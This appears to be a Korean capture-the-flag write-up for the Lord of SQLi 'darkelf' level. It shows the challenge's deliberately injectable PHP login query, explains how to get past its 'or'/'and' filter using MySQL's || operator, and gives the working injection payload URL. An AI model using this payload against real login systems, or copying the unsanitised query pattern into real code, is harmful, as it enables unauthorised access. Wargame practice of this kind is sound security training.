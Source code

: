 # Lord of SQLi - darkelf
> query : select id from prob_darkelf where id='guest' and pw=''
```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("darkelf");
  highlight_file(__FILE__);
?>
```


<br>  

- GET방식으로 파라미터를 넘겨주고 있다.
<br>

- pw파라미터에서 prob,\_, \., \(, \) 를 필터링하고있다.  
가장 중요한 것은 그동안 사용하던 or 과 and 를 사용하지 못하게 필터링하고있다.  
<br>

- 이 문제에서 사용하는 MySQL은 ||(or) 연산을 지원하는 것을 이용해서 풀 수 있다.  
<br> 처음 조건을 거짓으로 만들고 || 을 이용하여 두번째 조건에 id='admin' 을 넣어주면 쿼리가 참이된다.

<br>
<br>

### payload  
<br>

> URL : http://los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=%27%20||%20id=%27admin%27;%23  

> query : select id from prob_darkelf where id='guest' and pw='' || id='admin';#'
